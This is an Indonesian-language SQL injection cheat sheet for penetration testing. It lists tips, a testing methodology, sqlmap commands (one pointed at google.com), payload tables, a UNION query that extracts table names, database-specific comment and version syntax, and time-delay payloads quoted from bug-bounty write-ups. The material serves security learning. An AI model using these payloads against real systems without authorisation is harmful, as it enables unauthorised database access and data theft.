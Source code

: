# SQL Injection

## Tips
- Tidak semua payload biasa dijalankan di address-bar browser, kadang harus menggunakan burpsuite (repeater)
- Blind SQL injection generate error 500
- Pada injection login, coba test inject for username dahulu, kalau tidak bisa coba inject kedua username dan password
- Kalau value parameter yang injection kan adalah string maka mengunnakan 1='1 atau '1'='1'
- Blind berbeda dengan OOB
- Comment /*string*/ disebut juga obfusacator, pada MySQL 5.5.30 or higher, sintak berikut `SELECT 1 /*!50530 + 1*/` akan dieksekusi sebagai 2 bukan 1.
- OOB Channel -> DNS, email, Database connection

## langkah-langkah
1. Identifikasi DB apa yang digunakan, salah satu caranya adalah dengan generate error sehaingga server menampilka informasi teknologi. Walaupun server tidak mereturkan error, tapi server selau mereturn databse yang digunakan ketika kita menijectkan payload finding db version.
2. Identify kapan dan dimana aplikasi akan berinteraksi dengan DB Server untuk mengakses data. Berikut kondisi umum aplikasi berinteraksi dengan DB server.
    - Authentication form, user dan password akan dicek pada database apakah ada atau tidak (kadang juga hash)
    - Search Engine, string yang disubmit oleh user digunakan untuk mengeksract semua data yang relevant pada database
    - E-commerce site, semua produk e-commerce stored di DB
2. List entry point/parameter yang bisa digunakan untuk menginputkan SQL query, seperti (__GET parameter, POST parameter, HTTP header, cookies__)
3. Coba generate error pada entry point/parameter yang sudah dikumpulkan pada langkah sebelumnya menggunakan `'` (digunakan untuk memisahkan string) dan `;` (digunakan untuk mengakhiri kueri SQL)
4. Coba meng-injek payload tanpa break query, bisa mengguna comment


## Celah Injection
- Header
    - User-agent
      ```
      sqlmap -u 'http://google.com' -p user-agent --user-agent=elseagent --technique=B --banner
      sqlmap -u 'http://google.com' -p user-agent --random-agent --technique=U --tamper=space2comment --suffix=';#' union-char=els --banner //Digunakan jika server blok spasi dan menggunakan commen '#'
      ```
- Parameter GET
- Parameter POST

## Payload
|Payload|Payload alternatif|
|---|---|
|Logical True/false|`' OR 1=1` biasaya pake ini<br>`' OR 6=6`<br>`' OR 0x47=0x47`<br>`' OR char(32)=6''`<br>`' OR 6 is not null`|
|UNION|`UNION SELECT`<br>`'UNION ALL SELECT`|

```
http://192.168.2.3/news-and-events.php?id=-22 union select 1,group_concat(table_name),3,4,5,6,7 from information_schema.tables where table_schema=database()— //extract table name
```

|Database|Comment|
|---|---|
|Oracle|`--comment`|
|MySQL|`-- comment` `-- -comment` `; -- -comment` `#comment` `/*comment*/`(also obfuscator) `;%00`(nullbyte) `+--+/`|
|PostgreSQL|`--comment` `/*comment*/`|
|Microsoft|`--comment` `/*comment*/`|

  ```
  <spasi_kosong>
  '
  ')
  '))
  " / ") / "))
  `
  `)
  `))
  ```
  
|DB|Function (non-blind)|Function (blind)->string concatenation|Function (blind)->all function return an INTEGER NUMBER in the respective database while generate ERROR on all others|
|---|---|---|---|
|MySQL|@@version<br>@@global.version<br>version()|'Concat' 'enation'<br>CONCAT('Concat','enation')|CONNECTION_ID()<br>LAST_INSERT_ID()<br>ROW_COUNT()<br>...|
|MS SQL| @@version|'some'+'enation'<br>CONCAT('Concat','enation')|@@PACK_RECEIVED<br>@@ROW_COUNT<br>@@TRANCOUNT<br>...|
|Oracle|version FROM v$instance<br>banner FROM v$version WHERE banner LIKE 'oracle%'<br>banner FROM gv$version WHERE banner LIKE 'oracle%'|'Concat'\|\|'enation'<br>CONCAT('Concat','enation')|BITAND(0,1)<br>BIN_TO_NUMB(1)<br>TO_NUMBER(1231)<br>...|
    
## Writeups
|Title|Description|
|---|---|
|[SQL Injection at Spotify](https://infosecwriteups.com/sql-injection-at-spotify-d19e0861ddf0)|inject `' atau / atau \` dan amati error yang.<br>![image](https://user-images.githubusercontent.com/52058660/159397667-09fa2fdc-f9ec-4a36-b8dc-cd6cce2bc1f1.png)<br>![image](https://user-images.githubusercontent.com/52058660/159397603-504a8a1c-acf9-4ae1-8725-978f06f6061a.png)<br>![image](https://user-images.githubusercontent.com/52058660/159397728-b70f35f9-ab12-43cc-9483-67b9806c1ba9.png)<br>![image](https://user-images.githubusercontent.com/52058660/159397801-3e97cac7-76cb-46ca-9b08-7dde6c0a73a7.png)|
|[How I Hacked the Dutch Government with SQLi and Won the Famous T-Shirt?](https://goktugkaya.medium.com/how-i-hacked-the-dutch-government-and-won-the-famous-t-shirt-b45cdf5dfaa1)|Change GET to POST|
|[How I found a critical P1 bug in 5 minutes using a cellphone — Bug Bounty](https://medium.com/@mrempy/how-i-found-a-critical-p1-bug-in-5-minutes-using-a-cellphone-bug-bounty-303ebec3edd6)|injeksi pada login form<br>`admin’ and (select * from(select(sleep(40)))SQLI) and ‘abc’ = ‘abc`<br>menggunakan kiwi browser untuk menangkap request|
|[120 Days of High Frequency Hunting](https://kuldeep.io/posts/120-days-of-high-frequency-hunting/)|time delay vuln<br>`'; WAITFOR DELAY '00:00:10'-- -`|
|[Making a Blind SQL Injection a Little Less Blind](https://medium.com/@tomnomnom/making-a-blind-sql-injection-a-little-less-blind-428dcb614ba8)|sqli pada json, jika inject ' -> error, coba netralisir dengan /*'*/|

## Resource
- [Web Security Academy - SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [HackTricks -  SQL Injection](https://book.hacktricks.xyz/pentesting-web/sql-injection)
- [Netsparker - SQL Injection Cheat Sheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)
- [Finding an unseen SQL Injection by bypassing escape functions in mysqljs/mysql](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4)
- [BigQuery SQL Injection Cheat Sheet](https://ozguralp.medium.com/bigquery-sql-injection-cheat-sheet-65ad70e11eac)
- [Dumping a complete database using SQL injection [updated 2021]](https://resources.infosecinstitute.com/topic/dumping-a-database-using-sql-injection/)
